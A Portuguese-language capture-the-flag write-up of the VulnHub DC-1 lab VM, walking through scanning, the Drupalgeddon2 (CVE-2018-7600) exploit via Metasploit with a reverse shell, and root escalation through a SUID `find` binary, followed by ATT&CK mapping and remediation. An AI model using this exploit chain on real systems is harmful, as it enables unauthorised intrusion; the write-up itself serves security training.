





# DC: 1 — Writeup (PT-BR)

> A série DC é uma coleção de VMs criadas pelo DCAU (David Corrigan) especialmente para aprendizado de pentest real. DC-1 é onde tudo começa: uma instalação Drupal 7 vulnerável pedindo para ser explorada. Um CVE, um binário SUID, e cinco flags separando você do shell de root. Bora lá, mano.

---

## Informações do Alvo

| Campo | Detalhes |
|-------|---------|
| **Nível** | Iniciante |
| **VM Alvo** | DC: 1 (VirtualBox/VMware, host-only) |
| **VM Atacante** | Kali Linux 2024.x |
| **IP Alvo** | 192.168.1.104 (adaptador host-only) |
| **VulnHub URL** | https://www.vulnhub.com/entry/dc-1-1,292/ |
| **Técnicas** | Recon de rede, fingerprint de CMS, exploração via Metasploit, privesc via SUID |
| **CVEs** | CVE-2018-7600 (Drupalgeddon2) |
| **CISA KEV** | Sim, CVE-2018-7600 está catalogado no CISA Known Exploited Vulnerabilities |
| **Grupos APT** | Atores oportunistas; CVE-2018-7600 usado em campanhas de crypto-mining e acesso inicial por múltiplos grupos |

---

## Resumo do Ataque

```
[Atacante]
    |
    +--[ netdiscover / nmap ]--> 192.168.1.104:80 (Drupal 7)
    |
    +--[ CVE-2018-7600 Drupalgeddon2 (Metasploit) ]--> shell Meterpreter (www-data)
    |
    +--[ find / -perm -u=s ]--> binário `find` com SUID descoberto
    |
    +--[ find -exec /bin/sh ]--> shell root
    |
    +--[ cat /root/thefinalflag.txt ]--> FLAG CAPTURADA
```

---

## Metodologia

1. Descoberta de rede e enumeração de serviços
2. Identificar Drupal 7 na porta 80, confirmar aplicabilidade do CVE-2018-7600
3. Explorar Drupalgeddon2 via Metasploit, obter Meterpreter
4. Enumerar binários SUID a partir do shell web
5. Abusar do SUID `find` para spawnar shell root
6. Coletar as cinco flags

---

## Passo 1: Descoberta de Rede

**Contexto:** Antes de tocar em qualquer coisa, mapeie a rede. `netdiscover` encontra hosts ativos no segmento host-only; nmap confirma serviços abertos e versões. Sem suposições, tá ligado?

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```

```bash
nmap -sV -sC -p- 192.168.1.104
```

**Saída esperada:**

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

**Alternativa:** `masscan -p1-65535 192.168.1.104 --rate=1000` para uma varredura mais rápida quando furtividade não é prioridade.

**Nota real:** Atacantes executam scans ativos e passivos durante o reconhecimento inicial. Em um engajamento real, essa fase seria executada a partir de um VPS ou redirector para evitar atribuição.

**MITRE TTP:** T1046 - Network Service Discovery



---

## Passo 2: Identificar Drupal 7 e Confirmar Vulnerabilidade

**Contexto:** Acessar a porta 80 revela um site Drupal 7. Drupal 7 anterior ao 7.58 é afetado pelo CVE-2018-7600, um RCE crítico sem autenticação na Form API. Caramba, mano: sem auth, execução direta de código.

```bash
curl -s http://192.168.1.104/CHANGELOG.txt | head -5
```

**Saída esperada:**

```
Drupal 7.x, 2017-xx-xx
```

**Alternativa:** Use `droopescan` ou verifique `/admin/reports/status` para divulgação de versão.

```bash
droopescan scan drupal -u http://192.168.1.104
```

**Nota real:** Divulgação de versão de CMS via `CHANGELOG.txt` e `README.txt` ainda é extremamente comum em ambientes de produção. Atores de ameaça fazem fingerprint de alvos com scanners automatizados antes de implantar exploits específicos.

**MITRE TTP:** T1190 - Exploit Public-Facing Application; T1518.001 - Software Discovery



---

## Passo 3: Explorar Drupalgeddon2 (CVE-2018-7600) via Metasploit

**Contexto:** CVE-2018-7600 afeta a Form API do Drupal. Uma requisição POST especialmente criada para um endpoint de formulário Drupal permite execução remota de código sem autenticação. O Metasploit tem um módulo estável para isso. Top demais, véi.

```bash
msfconsole -q
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.1.104
set LHOST <seu-IP-atacante>
run
```

**Saída esperada:**

```
[*] Started reverse TCP handler on <atacante>:4444
[*] Sending stage (39927 bytes) to 192.168.1.104
[*] Meterpreter session 1 opened
meterpreter >
```

Entrar no shell e estabilizar:

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**Alternativa (exploit manual):** Use o PoC standalone do [CVE-2018-7600 GitHub](https://github.com/dreadlocked/Drupalgeddon2):

```bash
python drupalgeddon2.py http://192.168.1.104/
```

**Nota real:** CVE-2018-7600 consta no catálogo CISA Known Exploited Vulnerabilities, o que significa que a CISA tem evidências de exploração ativa no mundo real. Incidentes documentados desde 2018 registram exploração em massa por botnets de crypto-mining e grupos com alinhamento APT. Qualquer instância Drupal 7 sem patch exposta à internet é um alvo fácil, pô.

**MITRE TTP:** T1190 - Exploit Public-Facing Application; T1059.004 - Command and Scripting Interpreter: Unix Shell



---

## Passo 4: Enumerar Flags e Binários SUID

**Contexto:** O DC-1 esconde cinco flags pelo sistema de arquivos. Enquanto caça as flags, enumere binários SUID como parte padrão do pós-exploração. O binário `find` com SUID é uma configuração incorreta clássica que transforma um utilitário de busca em um shell root. Ixi, vacilou feio esse sysadmin.

```bash
# Caçar flags
find / -name "*flag*" 2>/dev/null
cat /etc/flag1.txt
cat /var/www/sites/default/settings.php | grep flag
find / -name "flag*" -type f 2>/dev/null

# Enumerar binários SUID
find / -perm -u=s -type f 2>/dev/null
```

**Saída esperada (linha relevante):**

```
/usr/bin/find
```

**Nota real:** Misconfiguration de SUID está no top-10 dos vetores de escalada de privilégio em Linux em testes de intrusão reais. Aparece frequentemente após instalações de software que definem SUID desnecessariamente, ou quando administradores ajustam permissões manualmente sem entender as implicações de segurança.

**MITRE TTP:** T1083 - File and Directory Discovery; T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid



---

## Passo 5: Escalada de Privilégio via SUID `find`

**Contexto:** Como o `find` tem SUID root, a flag `-exec` executa comandos como root. GTFOBin clássico. Verifique a execução primeiro, depois spawne um shell root. Gg, mano.

```bash
# Verificar que executamos como root
touch /tmp/pwn
find /tmp/pwn -exec whoami \;
```

**Saída esperada:**

```
root
```

```bash
# Spawnar shell root
find /tmp/pwn -exec /bin/sh \;
```

Dentro do shell root:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/thefinalflag.txt
```

**Alternativa:** Use `find -exec /bin/bash -p \;` para um shell bash root com `-p` preservando o UID efetivo.

**Nota real:** Abuso de SUID é mapeado no ATT&CK como T1548.001 e aparece em relatórios de incidentes reais em múltiplos setores. Ferramentas como LinPEAS, LinEnum e pspy automatizam a enumeração SUID e são encontradas regularmente em forense pós-comprometimento de hosts Linux.

**MITRE TTP:** T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid; T1005 - Data from Local System



---

## Flags e Credenciais Capturadas

| Item | Valor / Localização |
|------|-------------------|
| Flag 1 | `/etc/flag1.txt` |
| Flag 2 | `sites/default/settings.php` (embutida na config do Drupal) |
| Flag 3 | `/var/www/sites/default/files/flag3.php` ou similar |
| Flag 4 | `/home/flag4/flag4.txt` |
| Flag Final | `/root/thefinalflag.txt` |
| Usuário web | `www-data` |
| Acesso root | Via SUID `find` |

---

## Lições Aprendidas com Relevância no Mundo Real

1. **CVE-2018-7600 (Drupalgeddon2) está no CISA KEV.** Não é vulnerabilidade teórica: o catálogo CISA lista porque foi explorada ativamente em produção. Manter Drupal 7 sem patch em 2024 é negligência, não só configuração incorreta.

2. **SUID no `find` é um comando longe de root.** Qualquer dev ou sysadmin que defina SUID em um binário listado no GTFOBins está efetivamente dando acesso root a qualquer usuário local. A correção é trivial; o vacilo é injustificável.

3. **Metasploit não é trapaça.** Atores reais usam frameworks automatizados. Defensores precisam entender como a exploração automatizada aparece no tráfego de rede e nos logs do sistema para detectá-la.

4. **Divulgação de versão de CMS acelera a exploração.** `CHANGELOG.txt` público em um site Drupal informa exatamente quais CVEs tentar. Divulgação de versão deve ser tratada como risco a mitigar, não ignorado.

5. **Enumeração pós-exploração deve ser sistemática.** Deixando as flags de lado, a lição real é o fluxo: shell, estabilizar, enumerar usuários/SUID/sudo/crons/dirs graváveis. Esse padrão se aplica diretamente a engajamentos reais.

---

## Mapeamento MITRE ATT&CK

| Tática | Técnica | ID | Observações |
|--------|---------|-----|------------|
| Reconhecimento | Active Scanning: Vulnerability Scanning | T1595.002 | nmap/droopescan contra Drupal |
| Acesso Inicial | Exploit Public-Facing Application | T1190 | CVE-2018-7600 Drupalgeddon2 |
| Execução | Command and Scripting Interpreter: Unix Shell | T1059.004 | Shell Meterpreter + python pty |
| Descoberta | File and Directory Discovery | T1083 | Caça de flags, enumeração SUID |
| Descoberta | Network Service Discovery | T1046 | Scan completo de portas nmap |
| Escalada de Privilégio | Abuse Elevation Control Mechanism: Setuid and Setgid | T1548.001 | SUID `find` -exec |
| Coleta | Data from Local System | T1005 | Leitura de arquivos de flags |

---

## Remediação

### Vulnerabilidade: CVE-2018-7600 (Drupalgeddon2)

**Funções NIST CSF 2.0:** Identify (ID.RA-1), Protect (PR.PS-2), Respond (RS.AN-5)

**Controles NIST SP 800-53:**
- SI-2: Flaw Remediation (atualizar Drupal para 7.58+)
- CM-7: Least Functionality (desabilitar ou restringir o caminho `update.php`)
- RA-5: Vulnerability Monitoring and Scanning

**CISA KEV:** CVE-2018-7600 está catalogado; agências federais são obrigadas a remediar por prazos da CISA BOD 22-01. Todas as organizações devem tratá-lo como crítico.

**C2M2:** MIL1 - Estabelecer práticas de gerenciamento de patches; MIL2 - Monitorar divulgações de vulnerabilidades para softwares implantados.

**D3FEND:** D3-SFA (Software Feature Analysis) para detectar versões de componentes vulneráveis; D3-NTF (Network Traffic Filtering) para bloquear tentativas de exploit no perímetro.

---

### Vulnerabilidade: Misconfiguration SUID no `find`

**Controles NIST SP 800-53:**
- AC-6: Least Privilege (remover bit SUID de binários não essenciais)
- CM-6: Configuration Settings (aplicar baseline seguro; auditar binários SUID/SGID)
- SI-7: Software, Firmware, and Information Integrity

**Comando de correção:**

```bash
chmod u-s /usr/bin/find
```

**D3FEND:** D3-HBPI (Hardware-Based Process Isolation); D3-EAL (Executable Allowlisting) para prevenir caminhos de execução SUID não autorizados.

---

## Considerações Finais

DC-1 é a porta de entrada perfeita para a série. CVE-2018-7600 é um exemplo claro de por que gerenciamento de patches não é opcional: um único CMS sem patch em um host de perímetro e você está entregando RCE sem autenticação para atores de ameaça. A misconfiguration SUID do `find` reforça o princípio de menor privilégio da forma mais direta possível. Se você chegou até o root no DC-1, tem a fundação. A série só fica mais interessante daqui pra frente, véi.

Thanks guys!! (❍ᴥ❍ʋ)
